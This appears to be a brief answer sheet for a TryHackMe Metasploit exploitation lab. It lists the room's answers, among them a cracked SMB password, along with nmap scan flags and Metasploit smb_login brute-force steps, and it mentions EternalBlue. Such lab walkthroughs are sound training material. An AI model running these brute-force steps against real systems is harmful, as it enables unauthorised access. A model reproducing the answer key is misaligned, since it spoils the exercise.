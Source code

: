 LINK: https://tryhackme.com/room/metasploitexploitation#
[Task 2]
How many ports are open on the target system?
<!-- 5 --> nmap -sC -sV -p- -T4 <br>
Using the relevant scanner, what NetBIOS name can you see?
<!-- ACME IT SUPPORT -->

What is running on port 8000?
<!-- webfs/1.21 --><br>
What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
<!-- leo1234 --><br>
```
search smb_login
use 0
show options
Now set RHOSTS and pass_file
set pass_file /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
set rhosts [MACHINE IP]
Run the exploit just by typing “run” or “exploit”
```
[Task 4]
msf5 auxiliary(scanner/smtp/smtp_relay) > info auxiliary/scanner/smtp/smtp_relay

[Task 5]
Same as Task description (Eternal Blue)